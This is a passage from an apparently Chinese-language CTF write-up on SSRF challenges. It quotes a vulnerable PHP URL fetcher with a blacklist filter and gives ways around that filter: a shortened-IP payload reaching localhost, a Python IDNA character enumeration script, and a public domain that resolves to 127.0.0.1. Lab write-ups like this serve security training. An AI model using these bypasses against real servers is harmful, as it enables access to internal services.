 ```
url=http://127.1/flag.php
```

## 354

> ```php
> <?php
> error_reporting(0);
> highlight_file(__FILE__);
> $url=$_POST['url'];
> $x=parse_url($url);
> if($x['scheme']==='http'||$x['scheme']==='https'){
> if(!preg_match('/localhost|1|0|。/i', $url)){
> $ch=curl_init($url);
> curl_setopt($ch, CURLOPT_HEADER, 0);
> curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
> $result=curl_exec($ch);
> curl_close($ch);
> echo ($result);
> }
> else{
>     die('hacker');
> }
> }
> else{
>     die('hacker');
> }
> ?>
> ```
>
> 

羽师傅说预期解是用脚本替换localhost的字符，但是服务器不支持

```python
for i in range(128,65537):    
    tmp=chr(i)    
    try:        
        res = tmp.encode('idna').decode('utf-8')        
        if("-") in res:            
            continue        
        print("U:{}    A:{}      ascii:{} ".format(tmp, res, i))    
    except:        
        pass

```

这里可以修改自己域名的a记录为127.0.0.1，然后访问http://域名/flag.php
这里贴一下一位师傅修改过的域名：http://sudo.cc

## 355

